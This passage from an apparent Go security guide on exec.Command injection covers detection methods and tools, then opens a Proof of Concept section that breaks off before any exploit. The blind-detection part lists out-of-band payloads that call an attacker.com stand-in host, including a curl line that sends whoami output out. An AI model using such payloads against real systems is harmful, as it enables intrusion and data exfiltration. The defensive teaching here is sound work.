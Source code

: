 - **Time-Based Blind Detection**: For blind command injection (where the output of the injected command is not directly visible), time-delaying commands like `sleep 5` can be used. If the application's response time increases by the specified duration, it indicates successful command execution.

- **Out-of-Band (OOB) Interaction**: For blind vulnerabilities, payloads can be crafted to trigger an OOB network interaction with a server controlled by the tester (e.g., `nslookup <unique_id>.attacker.com`, `curl http://attacker.com/$(whoami)`). Successful execution is confirmed by observing the interaction on the attacker's server.

4. Runtime Monitoring and Threat Detection:

Monitoring the application's behavior in production or staging environments can help detect exploitation attempts or successful breaches.

- **Anomalous Process Execution**: Monitor for unexpected processes being spawned by the Go application, legitimate processes being called with unusual command-line arguments, or processes running without any command-line arguments where they are expected.
    
- **Unexpected Network Connections**: Alert on network connections initiated by the Go application process to unusual or untrusted destinations, especially if these occur after suspicious input patterns are observed.
    
A layered detection strategy is paramount. No single method is infallible. SAST can identify potential flaws early in the development cycle. DAST validates these findings in a running application and can uncover issues missed by SAST. `govulncheck` ensures that known vulnerable dependencies are not introducing risks. Manual code review provides the human expertise to understand complex logic and data flows that might elude automated tools. Runtime monitoring acts as a final safety net.

**Table: Detection Methodologies and Tools for Go `exec.Command` Injection**

| **Method** | **Go-Specific Tools/Techniques** | **Key Characteristics/Focus** |
| --- | --- | --- |
| Manual Code Review | Direct inspection of `os/exec.Command` usage, data flow analysis | Understanding code logic, context, identifying subtle flaws, tracing untrusted data paths. |
| SAST | `gosec` (Rule G204), Snyk Code, Datadog (`go-security/command-injection`) | Automated code pattern matching, taint analysis to find vulnerabilities before deployment. |
| Dependency Scanning | `govulncheck` | Identifying usage of Go standard library versions or third-party dependencies with *known* CVEs related to command execution. |
| DAST | Burp Suite, OWASP ZAP, Bright Security | Black-box testing of running application, input fuzzing with shell metacharacters, time-based and OOB techniques for blind injection. |
| Runtime Monitoring | Generic Process/Network monitoring tools, EDR solutions | Detecting anomalous process creation, unusual command arguments, or unexpected network behavior post-exploit or during attempts. |

## **10. Proof of Concept (PoC)**

This Proof of Concept (PoC) demonstrates how to exploit the `vulnerableHandler` function from the code snippet provided in Section 8.

**Vulnerable Application Setup:**

1. Save the vulnerable Go code (from Section 8) as `main.go`.
2. Run the application: `go run main.go`. The server will start on `http://localhost:8080`.

**Exploitation Steps:**

The `vulnerableHandler` takes a `file` query parameter, which is then used in the `ls -l %s` command string executed via `sh -c`.
